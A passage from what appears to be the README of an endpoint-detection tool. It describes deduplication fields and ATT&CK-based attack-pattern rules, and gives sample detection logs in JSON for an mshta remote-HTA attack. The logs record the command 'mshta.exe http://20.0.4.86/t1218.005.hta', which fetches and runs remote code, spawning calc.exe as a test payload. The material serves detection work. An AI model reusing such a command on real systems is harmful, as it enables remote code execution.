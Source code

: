 UniqueHash：是进行去重的计算字段

UniqueNumber：重复统计字段

## Attck IOA能力

目前Attck IOA已完成60%：已支持250多种技术攻击模式，后续会覆盖完全监测规则：

示例：下面是mshta remote攻击

```json
[
	{
		"AgentID" : "5b52cfcca998b6376b1ab43fea01cdfe",
		"AttackMark" : "4d749a25-d3a3-4a48-91ab-42014baab021:9:process_mshta|4d749a25-d3a3-4a48-91ab-42014baab021:9:process_mshta_net_feature",
		"BootTime" : "2024/01/03 16:42:09",
		"DriverType" : 1,
		"EventID" : 9,
		"OrgFileName" : "mshta.exe",
		"ParentProcessCommandLine" : "c:\\windows\\system32\\cmd.exe /c \"\"e:\\win-mshta-script\\win-mshta-remote-hta.bat\" \"",
		"ParentProcessGUID" : "4c5dc36b0f1818e800fa1916253eda01",
		"ParentProcessID" : 6376,
		"ParentProcessImage" : "c:\\windows\\system32\\cmd.exe",
		"ParentProcessMD5" : "94912c1d73ade68f2486ed4d8ea82de6",
		"ProcessCommandLine" : "mshta.exe  http://20.0.4.86/t1218.005.hta",
		"ProcessGUID" : "4d2a7f5d18e81930007afd32253eda01",
		"ProcessID" : 6448,
		"ProcessImage" : "c:\\windows\\system32\\mshta.exe",
		"ProcessMD5" : "98447a7f26ee9dac6b806924d6e21c90",
		"ProcessName" : "mshta.exe",
		"Session" : 1,
		"Time" : "2024/01/03 17:14:49",
		"UniqueID" : "5fcf3e24-d22e-4a5a-a76a-7ed0634ab5a8",
		"UserID" : "s-1-5-21-219989340-3751043042-229602202-1000",
		"id" : 1
	},
	{
		"AgentID" : "5b52cfcca998b6376b1ab43fea01cdfe",
		"AttackMark" : "3e5a0fda-4f8f-4b0a-8ae4-fdbac202abd8:9:process_mshta_child",
		"BootTime" : "2024/01/03 16:42:09",
		"DriverType" : 1,
		"EventID" : 9,
		"OrgFileName" : "cmd.exe",
		"ParentProcessCommandLine" : "mshta.exe  http://20.0.4.86/t1218.005.hta",
		"ParentProcessGUID" : "4d2a7f5d18e81930007afd32253eda01",
		"ParentProcessID" : 6448,
		"ParentProcessImage" : "c:\\windows\\system32\\mshta.exe",
		"ParentProcessMD5" : "98447a7f26ee9dac6b806924d6e21c90",
		"ProcessCommandLine" : "\"c:\\windows\\system32\\cmd.exe\" /c calc.exe",
		"ProcessGUID" : "4da4943219301b78007a6dad253eda01",
		"ProcessID" : 7032,
		"ProcessImage" : "c:\\windows\\system32\\cmd.exe",
		"ProcessMD5" : "94912c1d73ade68f2486ed4d8ea82de6",
		"ProcessName" : "cmd.exe",
		"Session" : 1,
		"Time" : "2024/01/03 17:14:49",
		"UniqueID" : "50f290e6-bb93-4eca-a26e-4b649f698542",
		"UserID" : "s-1-5-21-219989340-3751043042-229602202-1000",
		"id" : 2
	},
	{
		"AgentID" : "5b52cfcca998b6376b1ab43fea01cdfe",
		"AttackMark" : "4d749a25-d3a3-4a48-91ab-42014baab021:5:net_mshta_connect",
```